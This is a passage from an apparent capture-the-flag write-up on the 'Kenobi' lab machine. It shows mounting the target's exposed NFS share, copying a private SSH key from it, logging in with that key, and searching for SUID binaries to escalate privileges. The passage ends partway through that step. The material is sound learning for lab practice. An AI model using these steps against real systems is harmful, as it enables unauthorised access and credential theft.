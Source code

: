 ![](https://blog.razrsec.uk/content/images/2020/05/image-10.png)

The _/var_ directory can then be mounted to our machine:

```
mkdir /mnt/kenobiNFS
mount 10.10.245.98:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```

![](https://blog.razrsec.uk/content/images/2020/05/image-11.png)

Now that we have a network mount on our machine we can obtain the private key which can be used to login to Kenobi's account:

```
cp /mnt/kenobiNFS/tmp/id_rsa .
sudo chmod 600 id_rsa
```

```
ssh -i id_rsa kenobi@10.10.245.98
```

![](https://blog.razrsec.uk/content/images/2020/05/image-12.png)

Once logged in as Kenobi, the user fag can be obtained from the _/home/kenobi/user.txt_ file (flag not shown so you can grab this yourself).

# Privilege Escalation

All that remains is to escalate our privileges and become the _root_ user!

SUID (Set owner User ID up on execution) is a special type of file permissions given to a file. SUID bits can be extremely dangerous. Some binaries such as _passwd_ need to be run with elevated privileges (as its resetting your password on the system). However, other custom files that have the SUID bit can lead to all sorts of issues.

We can search the system to look for files with a misconfigured SUID bit in order to elevate our privileges:

```
find / -perm -u=s -type f 2>/dev/null
```

![](https://blog.razrsec.uk/content/images/2020/05/image-13.png)

The _/usr/bin/menu_ file looks out of the ordinary here. Let's run this:

```
/usr/bin/menu
```

![](https://blog.razrsec.uk/content/images/2020/05/image-14.png)

_Strings_ is a command on Linux that finds and prints text strings embedded in binary files.
